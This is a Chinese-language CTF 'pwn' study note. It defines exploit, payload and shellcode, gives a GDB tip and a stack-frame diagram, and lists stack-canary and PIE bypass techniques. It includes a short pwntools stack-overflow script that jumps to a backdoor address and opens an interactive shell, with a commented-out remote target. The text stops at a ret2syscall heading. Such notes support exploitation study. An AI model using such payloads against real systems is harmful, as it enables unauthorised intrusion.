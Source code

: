 # PWN

## 名词解释

- exploit，攻击脚本
- payload，攻击载荷
- shellcode，将要在服务器执行的shell命令

## GDB

- [gdb调试常用命令](https://blog.csdn.net/weixin_40179091/article/details/109828318)
- PIE绕过调试 b *$rebase(0x933)

## 栈溢出

```markdown
-------------------------
|    局部变量 (40字节)   |
-------------------------
|    保存的rbp (8字节)   |
-------------------------
|    返回地址 (8字节)    |
-------------------------
```

```python
from pwn import *
p=process("./overflow")
#p=remote(IP,端口)
backdoor=0x400677b
payload=b'a'*0x18+p64(backdoor)
p.recvuntil("Your suggestion:\n")
p.sendline(payload)
p.interactive()
```

### Canary绕过

- 格式化字符串绕过canary
- Canary爆破（针对有fork函数的程序）
- Stack smashing
- 劫持__stack_chk_fail

### PIE保护

- partial writing（部分写地址）

## ret2xx

### ret2syscall
